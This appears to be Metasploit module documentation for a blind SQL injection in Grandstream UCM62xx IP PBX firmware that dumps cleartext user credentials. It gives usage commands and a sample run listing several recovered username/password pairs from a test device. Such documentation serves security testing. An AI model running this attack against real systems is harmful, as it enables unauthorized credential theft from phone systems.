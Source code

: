 ## Vulnerable Application

### Description

This module uses a blind SQL injection (CVE-2020-5724) affecting the Grandstream UCM62xx
IP PBX to dump the users table. The injection occurs over a websocket at the websockify
endpoint, and specifically occurs when the user requests the challenge (as part of a
challenge and response authentication scheme). The injection is blind, but the server
response contains a different status code if the query was successful. As such, the
attacker can guess the contents of the user database. Most helpfully, the passwords are
stored in cleartext within the user table (CVE-2020-5723).

This issue was patched in Grandstream UCM62xx IP PBX firmware version 1.20.22.

### Installation

The UCM62xx PBX is a physical device and is not known to have been successfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* http://firmware.grandstream.com/Release_UCM62xx_1.0.20.22.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess`
* Do: `set RHOST <ip>`
* Do: `run`
* You should get a list of valid credentials for the target device.

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Grandstream UCM6202 IP PBX firmware version 1.0.20.20

```
msf6 > use auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > show options

Module options (auxiliary/scanner/http/grandstream_ucm62xx_sql_account_guess):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.9         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8089             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) > run
[*] Requesting version information from /cgi
[*] The reported version is: 1.0.20.20
[*] Found the following username and password: admin - cheesed00dle
[*] Found the following username and password: 1000 - gZ15S8O8U5S72oli
[*] Found the following username and password: 1001 - qK6uRxwC
[*] Found the following username and password: 1002 - aP9ux515W7p5U
[*] Found the following username and password: 1003 - pM6mo!E8u37k
[*] Found the following username and password: 1004 - mC7N68dm8h
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/grandstream_ucm62xx_sql_account_guess) >
```
